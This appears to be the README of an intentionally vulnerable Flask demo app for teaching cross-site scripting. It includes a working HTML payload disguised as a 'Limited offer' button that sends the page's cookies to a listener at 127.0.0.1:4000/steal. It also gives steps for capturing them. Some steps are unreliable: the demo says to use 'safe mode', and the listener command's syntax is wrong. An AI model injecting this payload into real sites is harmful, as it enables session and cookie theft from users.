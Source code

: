 # Flask Books XSS

## Running manually
### Requirements
* Python 3.11 or 3.12
* Poetry 2 (`pip install poetry`)

1. Install dependencies
```bash
poetry install
```

2. Create .env file like `example.env`

3. Run project

```bash
poetry run booksxss
# Or
poetry run flask --app flask_books_xss.app run
```

## Running in Docker

1. Build

```bash
docker build -t books-xss:latest .
```

2. Run (in vulnerable mode)

```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=true books-xss:latest
```
-> Access page on http://localhost:8080

3. Run (in safe mode)
```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=false books-xss:latest
```

-> Access page on http://localhost:8080 

## How to XSS (fetch cookies)

1. Run app in safe mode (as described previously)

2. As an example, paste this into the Title field:

```html
<div style="padding:8px;border:1px solid #cc0000;background:#fff7f7">
  <strong>🔥 Limited offer:</strong>
  <button style="padding:6px 10px;border:0;background:#0070f3;color:#fff;cursor:pointer"
    onclick='(function(){
		fetch("http://127.0.0.1:4000/steal?c=" + encodeURIComponent(document.cookie));	
          })()'>
    Buy now
  </button>
</div>
```

3. Open an external command-line session

4. Run `python -m http.server -port 4000`

5. On the web app, click "buy now" which will trigger the cookie fetching

6. Look at your command-line terminal, which should have logged a request with cookie information in the URL

## Project layout

```bash
flask-books-xss/
├─ pyproject.toml                 # Poetry 2 (PEP 621)
├─ flask_books_xss/
│  ├─ __init__.py                 # app factory, env parsing
│  ├─ app.py                      # CLI entry (exposes `app`)
│  ├─ db.py / storage.py          # SQLAlchemy + helpers
│  ├─ routes.py                   # web blueprint
│  └─ templates/
│     └─ index.html               # uses {{ vulnerable }} flag
└─ (instance/)                    # created at runtime for SQLite

```